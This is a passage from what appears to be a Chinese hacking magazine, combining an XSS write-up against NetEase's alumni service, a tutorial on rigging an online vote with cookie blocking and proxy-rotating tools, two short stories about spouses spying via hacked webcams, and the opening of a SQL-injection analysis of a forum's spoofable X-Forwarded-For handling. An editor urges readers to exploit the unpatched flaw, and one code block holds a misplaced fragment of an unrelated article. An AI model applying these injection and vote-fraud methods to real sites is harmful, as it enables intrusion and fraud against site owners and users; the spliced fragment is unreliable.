WinConnect Server XP 的操作还是非常简单的。点击“动作”菜单中的“发送消息”命令还可以对远程用户发送即时消息；而菜单中的“影子”命令可以发起远程控制的连接请求，出现的对话框中的组合键则是用来结束远程控制的。在安装了 WinConnect Server XP 后，远程桌面支持使用复制、粘贴的方式，在本地主机与终端服务器间执行文件管理等操作。由于采用了 128 位的加密方式，保证了客户端与服务器之间的通信安全，这较之远程桌面默认的用明文传输账户信息，无疑更让用户放心；另外，我们还可以查看登录到主机的所有活动用户，并可以注销或是断开远程用户。

> [文中涉及到的工具 WinConnect Server XP 2.0 光盘中有收录]

> **编辑点评：**
> Windows XP 带来了更安全的系统，却给广大黑友带来了更多的不爽，IPC$、3389……本文让我们看到了 XP 下远程连接实现的曙光。但是在系统正常启动的情况下替换 TermSrv.DLL 是不可行的，在对方机器安装 WinConnect Server XP 也是不现实的，又有少许遗憾吧！也许我们只能期待碰到网上流传的替换过 TermSrv.dll 的 XP 了，可是感觉那个作者的行为不太厚道哦！

# 网易的新漏洞

WH—错觉

> 从本文中你可以学到：
> 网易同学录的跨站漏洞利用

对网易的安全性，大家都会觉得做得不错吧，我也从没有怀疑过，毕竟这么大的一个网站嘛！不过今天无意中发现了一个问题。网易的同学录应该是用的人比较多了，安全性不高的话后果就不用说了。我今天就来看一下它的安全性，呵呵，发图片时，在粘贴图片地址的时候，一不小心就多粘贴了一次。发表之后……发生了什么！如图 1、图 2。

奇迹发生了，看到这些乱的代码了没有，这些代码马上让我兴奋了起来，一种不妙的预感！嘿嘿，看来网易的同学录可能真的有问题啊。继续吧。加入一些 HTML 标签看会怎样，加入 `` 看一下，
```html
&lt;iframe width=180 height=180 frameborder=0 scrolling=auto src=http://www.nohack.cn&gt;&lt;/iframe&gt;
null'A'null'A'null'A'null'A'null'A'null'A'null'A'null'A'null'A'null'A'null'A'null'A'null'A'null'A'null
...[网页源代码内容]...


后，会提示重新启动计算机后才能彻底清除。这类恶意软件主要是由于存在驱动保护等原因无法被实时删除，比如 3721 系列软件。而“Wopti 恶意软件清除大师”可以一次性完全清除这类恶意软件，用户只需要在清除后按照要求立即重启一次系统即可。

```

图 3：查看网页源代码
没有什么意外的情况。好的，我们看一下网页的源代码。代码中有许多的 `null'A'null'A'null'A'null'A'null'A'null'A'null`，如图 3。

就从这些地方下手。好，就在粘贴图片地址处前加 `A'null`。效果如何呢，期待一下。发送之后发现没有了图片链接，这个代码把图片的地址给屏蔽去了。在贴图和留言处都加入 `<iframe width=80 height=80 frameborder=0 scrolling=auto src=http://www.nohack.cn></iframe>`，看看效果如何，如图 4。

还是没有想要的效果。继续想办法，忽然想起在贴图处多粘贴几下，效果如何？如图 5。

熟悉的 nohack 终于出来了。最后检测发现还可以在里面执行网页语句。不过，这里就不一一说明了。

> **编辑点评：**
> 很短的一篇文章，但是要说的都说清楚了，小编我喜欢。网易的这种漏洞确实令人难以置信，不过百密必有一疏。整个 163 是如此庞大，好多细节需要考虑，出现漏洞可以理解。个人比较喜欢使用网易的服务，赶这个漏洞还没有补上，快去吧！不过不要做坏事哦！
> 从本文中你可以学到：
> Wopti 恶意软件清除大师的基本使用

随着雅虎中国和奇虎之战的升级，以及各种流氓软件的层出不穷，流氓软件的受关注程度再次被推到一个备受瞩目的高度。一时间，各种各样的反流氓软件也纷纷“揭竿而起”。就在昨天，国内知名的系统优化软件《Windows 优化大师》推出的最新版本中，就新增了一项强悍且免费的恶意软件清除模块“Wopti 恶意软件清除大师”。下面我们就来看看该软件的强悍功能。

“Wopti 恶意软件清除大师”与“Windows 优化大师”、“Wopti 进程管理大师”、“Wopti 内存整理”等同为 Wopti Utilities 系列产品，用户只需要安装最新版本的《Windows 优化大师》就可以拥有“Wopti 恶意软件清除大师”。双击桌面的图标来启动“Wopti 恶意软件清除大师”，软件默认会立即扫描和分析当前系统中存在的恶意软件，如图 1。

如果用户不希望每次启动时自动扫描，可在“设置选项”页面中将“启动本软件后，自动扫描分析恶意软件”的勾选去掉。另外，用户也可进入到“恶意软件清除”标签中再点击“扫描”按钮进行扫描。

扫描结束后，在“首页”标签中会显示出扫描到的恶意程序数目。用户点击“查看详细信息”后，程序就会自动地跳转到“恶意软件清除”标签。用户可以查看到详细的扫描结果，包括恶意软件的名称、位置、状态、说明、公司等，如图 2。

通过对这些说明信息的了解，用户可以进一步把握自己是否需要清除这些软件，比如有些工具条确实也能给用户方便的。

进行了恶意软件扫描后，选择需要清除的恶意软件，再点击“清除”按钮，即可立即清除被选中的项目。有的恶意软件清除
点击“设置选项”标签，用户可以根据自己的需要进行设置。例如某些恶意软件会修改 WinSock2 进行浏览器劫持，因此选中“清除恶意软件时，自动检查和修复被劫持的 WinSock2”选项，程序将自动检测用户系统的 WinSock2 是否被劫持，并且进行修复或清除，如图 3。

用户也可以点击界面的“立即检查 WinSock2 是否被劫持”，来对浏览器是否被劫持进行判断。WinSock2 修复方法包括“普通修复方法”和“Wopti 智能修复方法”两种。“普通修复方法”将清除所有的 WinSock2 浏览器劫持，该方法也是目前大多数同类软件采取的清除方法；“Wopti 智能修复方法”将使用 Wopti 的专有算法，判断被劫持的 WinSock2 是用户允许的还是恶意软件造成的，然后仅对恶意软件造成的进行清除或修复。

[文章中涉及的软件 Wopti 流氓软件清除大师光盘中有收录]

**编辑点评：**
“Windows 优化大师”的很多软件相信很多朋友都在用，这款 Wopti 恶意软件清除大师同样功能强大且易于操作，是持家的必备工具。光盘中收录的 Wopti 流氓软件清除大师为 Wopti 恶意软件清除大师的新版本，请读者注意辨认。

# 投票也要洗刷刷

独孤求败

- 从本文中你可以学到：
- 一种最简单的刷投票方法

高三了，好不容易放次假，正舒舒服服地在家里上网，忽然一个朋友（是个 MM 哦）发消息给我，要我去 www.jc826.com 帮她投票。进去一看，原来是我们这里一个较有名的摄像馆，正在举办一个叫“时尚星锐”的比赛活动，名次由投票产生，不过可惜的是她票数太低，才三百多，而最高的都有两万多了。任她怎么拉票都赶不上了，不得已（谁叫人家是 MM 呢，嘿嘿）只好帮她刷喽。

为了了解网站的投票系统，下面就要进行两项测试。首先，给她投票，提示投票成功，再次给她投票时弹出“您已经对她投过一票了，请 30 分钟后再投”的提示，如图 1。

可能眼尖的人已经发现了，在 IE 地址栏里出现了她的投票连接地址。接着关掉这个窗口，重新打开 IE，再次进入刚才的网页给她投票，提示投票成功了。由此可以推断，有可能是网站读取存储在我们电脑里的 Cookies 记录。于是打开 IE 属性，进入“隐私”标签的站点项里添加阻止接受这个网站的 Cookies，接下来再次用同一个窗口进行投票，提示投票成功了。但经过测试发现，只有按投票键投票或刷新网页才能增加票数，而直接回车进行连续投票时，虽提示投票成功，不过实际上并没算上一票。

现在我只要写个工具就可以对这个投票连接不断地刷了，但问题是我不会写工具，只好碰运气去找找喽。一支烟功夫就找着了几个刷网站流量的工具，想想应该对投票也有作用吧。但经过测试，只有一个工具起到了投票的作用，并且弹出的提示窗口也能自己关闭，而其他几个，虽不停地弹出投票成功的提示，但实际上就如我当初直接按回车投票一样，并没有真正起到投票的作用。

如图 2，就是我用来刷投票的工具。

它提供了利用代理来刷的功能，即使网站记录投票 IP，也能照样刷，并且工具能同时开多个，这样就更能提高刷投票的速度了。不过工具唯一的缺陷就是不能缩放在任务栏中，希望哪位高手能改进一下。

在工具的地址栏里填入投票连接地址，为了提高投票速度，间隔时间定在 3 秒吧，循环次数是指用代理的重复次数，循环完了工具就停止了，所以这里填 100 吧。还有就是在每次访问页里填 4，表示同时开四个窗口进行投票，并且勾选隐藏调用过程，如图 3。

接下来还要添置代理，工具作者原本有放代理的，不过毕竟有些时间了，现在不一定全能用。为了保险起见，还是自己添加的好。用代理超人找到了几十个，复制到代理设置栏中，好了，开始刷喽。

刷投票到此结束了，不过要补充一下的就是，并不是所有投票系统的投票连接地址都会直接出现在 IE 地址栏中，有时候还要自己去找。

大家可以通过查看投票网页源代码的方式得到。方法是在投票网页单击右键选定“查看源文件”，在弹出的文本文件中，找到被投票人的投票连接，如图 4。

还有一种方法就是利用 Winsock Expert 等抓包工具，抓取投票信息，如图 5。

在 POST 里也同样可以得到投票连接地址。文章到此结束了，希望这些能让大家在日常生活中得到帮助，我的论坛 ID 孤求败，有机会大家一起交流吧。

[文章中涉及到的刷网站工具、Winsock Expert 草哲汉化版光盘中有收录]

## 编辑点评：

最简单的投票作弊方法，没有头疼的代码，没有烦琐的步骤。只要打开 IE 输入投票地址，一个回车就“欧”了，当然如果你愿意手工的话。还记得那天寻找自定义运行方法，原来只要在某个系统添加文件即可，并非我想的麻烦的系统配置文件。在求解一些问题的时候，我们往往会忽略基础的方法，而基础的方法却经常会是最简单易行的。

## MA言

最近一段时间，关于现代诗有没有存在的必要引起了很大的争议。青年作家韩寒和数位诗坛名人打起了口水战。韩寒笑称坚决支持诗人把流氓耍成一种流派，而诗人沈浩波则将韩寒比喻为蔑视文化的现代化的红卫兵。不过喃喃黑语这个栏目一直没有收到过诗歌体裁的文章，未免有些遗憾。中国古代就是一个诗歌大国，李白、杜甫等人的作品流传至今，连韩国、日本都有无数崇拜者。不过，近年来出现了一些低级趣味的作品，难免对诗歌整体的优雅风格有所影响。但我们认为只要写得好，有艺术的价值，喃喃黑语也欢迎诗歌类的稿件。本期的喃喃黑语不是诗歌，而是两篇涉及到了死亡和分离的小说，有些悲凉的感觉……《苏菲的秘密》这篇写的是成人世界的爱情仇怨，而《百分之一的幸福机会》这篇讲的是一个刑满释放的黑客和他“老婆”之间发生的感人故事。人的一生总不会都那么顺利，当我们凝视手掌的时候，是否能预知自己的命运路线？

# 苏菲的秘密

曾欣

## 珏

我叫珏，五年前嫁给一个叫林的人。

在一次聚会上他走过来问：你愿意嫁给我吗？就这样，我点了头。而现在回首这段婚姻，除了觉得好笑之外没有任何想法。

他在结婚那天跟我说我们要永远在一起，之后便只说一些我不会离开你之类的话，而且语气相当勉强。我们之间从来就没有太多语言，除了写作我在生活中几乎是一个不会表达的人，用林的话说，我根本就是一杯白开水。我不化妆，不逛街，不哭，不笑，不闹，不生气，更不会撒娇。我是一个有些麻木的人。

两年前，林有了别的女人。她年轻漂亮，也很有气质，连我也欣赏她。除了她夺走了我丈夫林之外，她几乎就算是我所妒忌的那种女人。

当我得知林在我出差时肆无忌惮地把那个女人带回家时，我十分冷静。这一切似乎都在我的预料之中，从那以后我便开始专注于电脑入侵的研究。就这样日积月累，我从一个只会玩游戏的人变成了一个准黑客，我成功地控制了林房间的电脑。只要我出差的时候他没有关机，我就随心所欲地进入他的电脑，打开摄像头。我清楚地看到他和那个女人在床上的一举一动，我记录下这一切，却不知道自己为什么要这样做。记得我母亲在遗书中告诉我，不要被自己的男人所蒙蔽。母亲就是在无意中看见我父亲与另一个年轻漂亮的女人睡在一起而服安眠药自杀的。当我知道这一切之后，父亲却假惺惺难过地告诉我她是突发心脏病而死的，而我只是傻傻地点头。那天晚上，我扔下一切离开了那个富足的家，离开了那个让我衣食无忧的父亲。我离开不久，他就正大光明地把那个女人娶回了家。

所有的记忆随着曾经的快乐像流星一样地消失。从无所不有到一无所有的落差让我变成一个麻木的人。我觉得这个世界任何事情对我来说都是如此陌生而熟悉。林的外遇让我陷入黑暗里，我想笑这一切。我继承了母亲的悲剧，我延续了跟她一样亲眼看见自己丈夫跟别的女人睡在一起的痛。我甚至可以感知那些刺骨的伤痛是怎样爬进她的眼眸，然后又是怎样陪着她吞下那些让她离开这个世界的药。没事的时候，我会把我拍下的那些影像一遍一遍反复看着，顺便告诉自己，那个男人是我丈夫，他在跟另一个比我漂亮的女人睡在一起。那天林的生日，他公然把那个女人带回了家，在人声的喧嚣中我表现得很淡定，我甚至不止一次地对着那个女人微笑，她用的是名贵的香水。而林在无意中曾说过讨厌我身上这种廉价的香水味。所以林爱上这个人似乎是合情合理的事。作为一个优秀的男人，守着我这么一个乏味的女人，喝着我这杯乏味的白开水，多少有些悲哀。

然而他们终究是走不到一起的。我知道她已经结婚了。嫁了一个可以让她出入高档场所疯狂刷卡的有钱男人，她是一个聪明的女人，我想她应该能权衡在金钱与爱情之间哪个更具有现实意义。所以，情人永远是情人。

## 林

我叫林，服装设计师，喜欢在自家的阳台上一个人安静地抽烟。黄昏的时候那里的落日很美。我看着昏黄的阳光笼罩在我吐出的烟雾里，那是一种说不清的惆怅。我身陷其中却乐此不疲。她在沙发上睡着了。我不会去叫醒她。我们之间早就已经习惯了这种不交谈的方式。我不知道当初为什么要向她求婚，只记得在聚会上她那落寞的神情恰如其分地汇合了那天苏菲离开我的心情。我走过去问她可不可以嫁给我，她点了点头。

很快，婚后的这种生活惩罚了我当时的冲动。跟一个不爱的人在一起，尤其跟一个不爱的又乏味的人在一起，比一个人独处更寂寞。

回家后我打开珏的电脑。我看到了一些让我头疼的东西，原来她早就知道了我的背叛。她的沉默让我感受到一阵寒冷，我太不了解这个女人。我在苦苦等待，等待她某天走过来对我说：“我们离婚吧！”然后我们各自安静地分开。我第一次感到彷徨，面对她我总觉得她带给我的是一种迷离，那种费尽心思也难以揣测的迷离。我不知道为什么会是这样，然而已经这样了。

今天天很阴，我们一如既往地待在家里不说话。这个所谓的家，除了寂寞我不知道它还留给我什么。我习惯性地到阳台抽烟，她洗的内衣晾在上面，水还在下滴，她在屋子里走来走去。现实如同她的身影走来走去，却也挥之不去，男人是没有退路的。很久以前曾经怀疑过这句话，而现在彻底认识到我的失败，感情的失败。

寂寞时我就会想起苏菲，想起她的高跟鞋在我房间来回走动的声音和她轻声对我说话的样子。然而她背叛了我们曾经的誓言，但再看到她梨花般的笑容时，我便失去了责怪她的能力。那天我表现得很狼狈，我告诉她我们以后还是要在一起，不管曾经做错过什么，以后还是要在一起的，她哭了，眼泪是冰凉的。

## 苏菲

我叫苏菲，一个有时候会突然沉默的女子。我偶尔喜欢一个人呆在房间里看窗帘投到地上的阴影，然后喝咖啡看一部很老的电影。

我慵懒地生活在这个家里，什么也不用做，尽情享受这种有钱人家的阔绰。只是有时候寂寞让我发不出声音。

他偶尔会回家陪我，在我无所事事的时候。他是我现在的丈夫，别的女人的情人。就像曾经他是别人的丈夫、我的情人一样。那天，他突然在镜子面前用一种难过的神情仔细地打量他那日渐臃肿的身躯和额头上的细纹之后，认真地问我：“你觉得我是不是老了？”我笑了笑，替他打好领带没有说话，只是在转过身时我在心里说，其实你早就老了，从我嫁给你那天起。

几年前，我做了他的情人跟他回家，不巧被他妻子撞见了。她推开门的一刹那，我看见一个年龄已经开始步入黄昏的女人带着一张充满刺骨忧伤的脸，她含着泪看着我们俩，嘴唇在不停颤抖，仿佛想说什么又说不出。当时我披散着头发坐在床上，面无表情。

第二天，他的妻子在另一个房间服安眠药自杀了，佣人跑过来告诉他的时候，他正酣睡在我的怀抱里。我看了他妻子，脸上有一抹一抹的青色，很吓人。之后他女儿离家出走，不堪忍受寂寞的他不久就向我求了婚。

我曾用无数个失眠的夜来质问我到底应不应该嫁给他。但这一切奢华的生活又告知我选择的正确性。或许金钱本身揭示着这个社会的一条普遍真理，毫无疑问我成了它的俘虏。我曾坦白告诉过他说，我不爱他，我只是爱他的钱。没想到他没有生气，反而平静地告诉我说，其实他心里明白。他说他只需要我的陪伴，他说他的家里需要一个女人像一只小猫一样乖乖地被养在家里，那样才像一个家。于是，我嫁给了他——这个像我父亲一般的男人。

我所有的朋友都有了自己的归属，幸福或者不幸福。我想我应该是幸福的。假如我还能够正确判断我是否幸福的话。偶尔碰到熟悉的人会问我是不是真的甘心跟着一个老男人这样过一辈子。我知道他们还担心我放不下曾经的那段感情，担心我放不下林。林是我们曾经互相爱过八年的男人，他有一张轮廓分明的脸，同我一样喜欢沉默。是的，从初中算起我爱了他八年，剩下两年我在不停比较在金钱与他之间我到底更爱谁。

我结婚后林还是找到了我。我在面对他的时候眼神有些游离。我怕，我害怕正视他的眼睛。我害怕他问起我为什么要背叛他。我背叛了他，我背叛了自己曾经说要跟他在一起的诺言。他没有对不起我，我对不起他。当他朝我走过来时，我再一次闻到他身上熟悉的味道，我的防线彻底崩溃于这种久违的被他拥抱的气息。他用一种接近央求的声音说：“苏菲，我们以后还是要在一起，不管曾经做错了什么，以后还是要在一起。”那些美好的曾经突然在我大脑中复苏，我哭了，眼泪冰凉。

毫无疑问，我再一次做了别人的地下情人。人说这就是漂亮女人的命。我曾经很不服气，但现在我认同了这种关于宿命的说法。因为我离不开林，而同时我又离不开那个父亲般的男人。我陷入这种夹缝中痛苦地微笑着。

林生日那天，我去了他家，看见了那个我一直想见的女人，珏。同以前一样，她脸上写满了孤寂，写满了同她离家出走时一样的冷漠。面对这个女人我无话可说，面对她勉强的微笑，我心里突然想哭泣。她可曾想过，她面前这个女人是她此生的情敌，她可曾想过此生最重要的男人——她的父亲连同她的丈夫，都同时纠缠在我漂亮的石榴裙里？

你要我对谁哭泣，到头来我都只剩下乏力。

只好阴天的时候我将自己关在浴室里，哗哗水流声中，我苍白地对着镜子数落我这充满香水味的身体。

你总说天空有多美，我说带我去，你不肯，那好，让我自己去飞！

## 编辑点评：

看到这篇小说，我想起很早以前看过的一部老片子，叫《苏菲的抉择》，讲的是一位在二次大战期间遭纳粹迫害的波兰女子的故事。影片中的情侣也是出现了很大的矛盾，结果出现了第三者。这次看《苏菲的秘密》，感觉却是另外一番滋味，作者用了一种新颖的写作手法表述了三个人的性格和他们之间的关系。文笔有些著名女作家安妮宝贝的味道，可又要比安妮的更辛辣、伤感。在孤独寂寞的内心世界里，有多少人能够洒脱地飞？但愿那些理想和现实剥离太多的人们，能够有机会飞向美丽的天空，没有悲伤、别离。如果可以，一定要和你最爱的人一起！

## 百分之一的幸福机会

海边一粒沙

QQ 上小米快乐的气息依然无法掩盖我颓废的忧伤。我直白地告诉她，四年前我受了朋友的怂恿黑掉了政府的网站，被判有期徒刑两年。当我走出牢狱的大门，一切都变了。我被这个世界遗弃了。我现在唯一能做的就是研究黑客软件。我想，告诉了小米这一切，她一定会像其他的网友一样在我的 QQ 里彻底消失，不留一点痕迹。

但她笑了，满不在乎地说：“就这样把你挫败了？有点不像个男人哦！”

我有些愤怒地说：“你不在我的角度，你不明白被人歧视、被人冷落是怎样的滋味。这个世界不会真正给人一个悔改的机会，那些美丽动人的话都是骗人的。”

她否定道：“你不试怎么知道？你对电脑程序这么了解，你可以到网络公司看一下啊，不要去那些小的公司，待遇不好，而且大的公司对人才的渴望很强烈。我相信你，你真的应该给自己一个出口。”

香烟燃烧到了尽头，似乎很快要烧到了手。可我的意识还在迷幻中。她的话像个魔咒一样，让我死去的心似乎有了跳动的欲望。第二天我竟然鬼使神差地把自己打理得很干净，走出了那扇关闭已久的门。我要为我的将来争取一个机会。

现实总是很残酷的，当别人怪异的目光在我脸上扫描的时候，当别人用不带任何感情的声调说 NO 的时候，我就像一只被剥了壳的蚌，在炙热的日光下暴晒。那种想哭想疯掉的感觉像毒蛇撕咬着我的心。我不知道自己是怎么走出那些高大的办公楼的，也不知道自己怎么回到家里的。只是觉得心口很闷，难以呼吸！

当小米在网上追问我结果的时候，似乎在我的伤口上又撒了一把盐，自尊受到了很大的伤害，我挖苦地说：“告诉过你，没人愿意给我机会，我是一堆垃圾！”

小米仍然不死心地问：“你没去前沿、e网之声这些大一点的公司去看看吗？”

我讨厌别人揭我的伤疤，尤其是女人，我没好气地说：“去了，已经在那里丢过人了。你满意了吗？”说完关掉了电脑。心像被刀刺到了一样疼，走出网吧，风忧伤地吹过，我绝望地抬起头，天空的黑暗没有尽头，就像我前方的路一样。我就在如猪窝一样的房间里沉睡，没有时间概念地沉睡。手机突然响了起来。看着那个陌生的号码，我有些疑惑。在这个世界上还会有谁知道我这个垃圾的电话呢？

“喂，你好，麻烦您找一下杨帆先生。”电话里传来一个甜蜜的声音。我愣了愣，有些恍惚地说：“我就是。”

“哦，你好，我是前沿网络公司，我们公司已经录用您为高级网络技师，如果没有什么问题，请您明天八点准时来公司报到。”

“哦，哦，哦。”放下电话，我连忙从床上蹦了起来，前沿公司录用我了？我不是在做梦吧？我用力地捏了一下胳膊，疼。

第二天我精神抖擞地走进前沿公司老总的办公室。这个睿智儒雅的老总不像那天见我时那么冷漠，反而有些热情地对我说了一些好好干、相信我之类的客套话。我懵懂地想着一个问题：青蛙是怎么变成王子的。

接下来的日子，为了感激生命再次的重生，我拼命地工作。在网络公司我是修补软件漏洞的，只要我接手的软件不但漏洞修补的速度快而且完美。我在同事和老总的眼里从渺小到至关重要。我明白了，有些人为什么忙碌却很快乐。

而我在一个关系比较好的同事那儿知道了青蛙变成王子的秘密。他羡慕地对我说：“你的女朋友可真厉害，那天她来公司，非要老总给她一个拒绝人才的理由。而且指着老总的鼻子说，连人才都要拒之门外的公司，没什么大的发展，员工才是公司最好的资源，如果连资源都不懂得开发，还不如趁早关门算了。刚开始老总还沉着个脸，后来竟然被骂乐了。”

听着同事的讲述，心里一遍遍地感激着小米。连忙上了 QQ 想对小米说声谢谢。因为工作忙已经很久没上 Q 了。没等我说话，小米竟然先把信息发了过来：“天呀，地呀！连老婆都不要了，这个负心的东西啊！”

小米常常把她称作我的老婆，以前总觉得很虚拟，但现在却觉得好感动。听着唠唠叨叨的想念，感觉从未有过的温暖，真要把她当成了我要爱的人一般。虽然我知道我配不上她。

因为知道这份工作是小米胡闹而来的，我更加努力地工作，我不想让小米失望，也不想给她丢脸。所以我经常会将工作带到家里，每天晚上平均都会在 2 点或者 3 点睡觉。早上的时候即使再努力早起，也会迟到。但是由于工作的原因，也被大家和老总所理解。但是当小米知道我上班经常会迟到后，严厉地批评我说：“迟到就是迟到，别给自己的坏习惯找借口。”以后强行在早上六点半打电话把我叫醒。当然也会在晚上 12 点之前以死相逼让我去睡觉。每当这个时候我都会幸福而甜蜜地笑。小米真的好可爱啊！

我的工作越做越出色，公司上上下下已经完全对我认可了。黑暗有了尽头，生活充满了阳光。自我当上了技术主管之后，老总的办公室去得也就多了，公司的一些事务老总也会征求一下我的建议。这让我有了很大的满足感。

“喂，杨帆，你来我办公室一趟。”听到老总的指示，我以最快的速度赶到办公室。看到老总的电脑，我差点没晕死过去。无数病毒在老总的电脑里非常亢奋地活跃着，我非常好奇地看着老总那张略有些幸福的脸，想象着一个非常搞笑的问题：软件开发公司的老总竟然养这么多病毒。我打趣地说：“没想到您还有这爱好啊，养病毒宠物啊。真有您的，现在麻烦了吧。我建议您重新安装下系统。”

老总笑眯眯地说：“是小米发过来一个文件，非要我接。为了表示我的信任，我就接了，可惜没想到这个小家伙竟然会这么坏。”

看着老总非但不生气，反倒是把这当作一种幸福，我有种酸酸的感觉在心口窜动，莫名的恼火燃烧着委屈。这时小米发过信息说：“怎么样，我养的宠物很可爱吧？”

我气愤地拨通了小米的电话，大声喊着说：“你怎么那么不懂事啊，你知道这些病毒的危害有多大吗？秦总的电脑里有多少文件吗？你知道自己在做什么吗？”小米的解释被我愤怒的火焰所覆盖。

这时老总一把抢下我的电话，挂断之后说：“你干什么对小米那么凶？不就是病毒吗？”

看着老总心疼小米的样子，我沉默了。是啊！我生气什么呢？我有什么资格生气，这个公司这台电脑又不是我的。那个下午的时间变得很苍白，意识也变得很恍惚。晚上小米打过电话来，我无力地听着小米哽咽地对我说：“我错了，对不起。你别生气好吗？”我很难过，这样的女孩我怎么忍心伤害？

虽然一再告诉自己小米不属于我，我也配不上她——我什么都没有，只会和那些代码打交道。可是我还是入侵了小米的电脑，监视她和老总的一切聊天内容。当我看到老总赤裸裸的表白时，我突然觉得自己很多余。本来就不应该在他们之间存在。看，他们是多么的般配！

小米依然在晚上十二点之前，叫我老公，撒娇地叫我去睡觉。早上六点半准时叫我

# 喃喃黑语

起床。可那份温暖已经荡然无存了。我再次回到了程序、木马软件的怀抱。小米也曾提出要见我，可都被我拒绝了。我害怕三个人在场的尴尬，尤其三人之间，我渺小得几乎如同不存在。

不知道什么时候，小米经常会告诉我她头疼。我掩饰着自己的关怀，开着玩笑说：“当你离去时，我会很伤心，很怀念你的！”

她笑着说：“我才不要死呢，好不容易打造出这么完美的老公，我怎么舍得拱手让人呢？”

我笑了，笑得别提有多么心酸了。

不知不觉，小米的电话越来越少了，以至再也没有在QQ上出现。晚上没人提醒我要睡觉了，早上也没有人打电话叫我起床。我忍不住地把电话打过去，常常都是无人接听。我想她并不需要我了。老总最近也很忙。早上来得很晚，下午走得很早，经常都是很疲惫的样子。我猜想他们在约会。我的心很痛，痛的时候就用香烟和工作来充实自己。看着工作上的成就，看着一串串的代码，我依然觉得空洞。当那轻袅的烟雾缠绕在眼前，尼古丁的芬芳残留在手指之间，我便开始想念小米。

我还是忍不住经常打小米的手机。这次很幸运，小米接了，我虚伪地微笑着说：“老婆，为了感激你为我做了那么多，我请你吃饭好不好？”

小米显得无力又耐心地说：“我不吃饭，你好好地把钱存起来吧！”

我有些伤心，现在是她不愿意见我了。我依然不死心地问：“为什么，存钱来得及，我想见你。”

小米有些哽咽地吼着说：“我想你早点娶我，所以你要存钱！”

我迷惘得不知道该怎么说，是不是该欣慰地笑？

晚上老总说要带我去一个地方，把我带到医院。透过病房的窗玻璃，我看到了一个清瘦的女孩子躺在病床上，很安静地睡着。枕头旁边放着一个精致的手机。小米？我不相信地看着老总，大脑里面是一片空白。

老总说：“小米得了脑瘤，经常会深度昏迷。醒来时就要给你打电话，她不许我跟你说这件事。医生说手术会有百分之一的希望，我想这百分之一也许会有奇迹，但小米却坚决不同意手术。她哭着对我说，她害怕进了那个小屋子就再也听不到你的声音了。她很爱你，一心想要嫁给你，这是我想改变却改变不了的。你能帮我劝劝她吗？”

我像听着别人的故事一般，傻傻地站在那里。眼泪不知不觉地流了下来。我跌跌撞撞地推开了门，消毒水的味道让我有些眩晕。我把小米的手贴在了我的唇上失声痛哭。从人活到现在我第一次哭，我知道男人的眼泪有多么的宝贵，所以我允许自己脆弱。

小米醒了过来，轻轻地拭去我肆意横流的泪水，眼里含着眼泪撒娇地说：“你还要我吗？”我的眼泪更加汹涌了，拼命地点头说：“我要，我要，我这辈子只要你。”小米笑了。望着小米那样温柔的笑，心疼得快要窒息，我伤心地说：“为什么上天这么不公平？它可以索取我全部的自由，可为什么要抢走你？我只有你了……”

小米温柔地用掌心摩挲着我的头发说：“上天是公平的，至少它给我们百分之一幸福的机会。只要你要我，百分之一的机会就是奇迹！”

我深深地吻着小米纤细的手指，让眼泪在她的手指间缠绕。小米忽然想起什么似的对我说：“黑一个人行吗？”我点点头，现在就算是小米要我黑掉整个世界，我也会努力办到。小米满意地笑笑说：“这个家伙太可恨了，总是在我的电脑里横冲直撞，还偷看我的聊天内容。帮我黑了他。”我笑了，眼里居然还有泪！

三天后我的准新娘被推进了手术室。我和老总以及小米的家人守在门外。六个小时我一直都是那么跪在门外的，一动不动。我希望上天因为我的虔诚，给我一个百分之一的幸福机会。我知道失去意味着什么，但我无法想象没了小米我该怎么办！

时间似乎过得很慢。六个小时简直比六年还要漫长。当手术门打开的时候，那一点光线似乎是希望一样。我连忙从地上站了起来，却又摔倒了。双脚已经麻木得忘记了怎样站立。我趴在冰冷的水泥地上，拽着医生的裤脚，期待地问：“我老婆怎么样了？”

医生失望地摇摇头。医生那张脸越来越大，越来越模糊。直到我的眼前是白茫茫的一片。我忘记了怎样流泪，耳边只有小米家人的哭声。心口很疼很疼，我不知道被谁抬了起来，又被谁推着匆匆地走……

当我看到阳光的时候，不知道已经过了多久。我看到老总那张憔悴的脸。他把一封信递给了我。我麻木地展开纸，上面只有几个字：为我好好地活着，延续我在你心目中的生命。落款是小米。

我迎着阳光微笑，心里温暖地疼痛着。也许，我早把小米刻在心上，不然为什么世界每一个角落都有小米的痕迹？

# 编辑点评

很羡慕文中的男主角有对他这么好的一个MM，只可惜小米和他这百分之一的幸福机会到最后还是没有创造奇迹。始于网络，止于现实，愿天国的小米可以得到安慰。

# 新洞练练看

# 新洞栏首语

2006年最离奇的奖获得者揭晓：

作为加利福尼亚长滩市的准打劫者，当他把点38左轮对准受害人开始时，枪卡壳了。这时他做了非常有建设性的举动——把眼睛对准枪口仔细瞄了一眼，同时扣动了扳机——然而这次枪没有卡壳。

另外，这个奖项的有力争夺者有：由于在一个非法酒吧停车喝酒，津巴布韦的一个司机发现自己巴士上的20名精神病患者全部逃跑了，而他本应该把他们送到BULAWAYO的精神病院。出于害怕他的粗心大意被批评，这个司机把车开到了附近的一个公共汽车站，允许每个乘客免费搭乘。他把这些乘客送到了精神病院，并且告诉医院工作人员这些“病人”非常容易激动，而且胡言乱语、充满幻觉——这个诡计直到三天后才被识破。

# 从本文你可以学到

- 1、蓝色魔法论坛注射漏洞
- 2、跟踪漏洞的基本过程

10月真是个好季节，不光咱们放了8天假，一些知名的Web程序也开始推出自己的新版本。对于我们漏洞爱好者来说，这些不是大餐么？蓝色魔法论坛是国内一家比较出名的论坛程序，在最近推出了新版本，什么新特性我们就不关心了，直接拉最新的代码下来，读代码找几个漏洞耍耍吧！

趁着上次利用构造HTTP中的虚假IP注入其他程序的风头，看看我们的最新蓝色魔法论坛有没有针对这个进行过滤哦！在index.php中一眼就看到如下代码：

```php
$cip = $ip;
```

看看`$ip`这个变量来自哪里吧！果然在`include/Global.php`中就看到了如下代码：

```php
$ip = $_SERVER['REMOTE_ADDR']; //取得server变量里的REMOTE_ADDR内容
$ip1 = $_SERVER['HTTP_X_FORWARDED_FOR']; //取得server变量里的HTTP_X_FORWARDED_FOR内容
if (($ip1 != "") && ($ip1 != "unknown")) $ip = $ip1; //将IP1也就是HTTP_X_FORWARDED_FOR赋给$ip
$ip = addslashes($ip);
```

从上期的杂志中就可以知道这个`$ip`是危险的，虽然做了`addslashes`处理，但是很显然作者并没有真正理解这个PHP漏洞的所在，因为IP只能是数字和点组成的，但是到这个程序里已经成为一个普通的字符串了！这个变量然后被传给`$cip`，那么跟踪这两个看它们到哪了吧！在`Global.php`当中：

```php
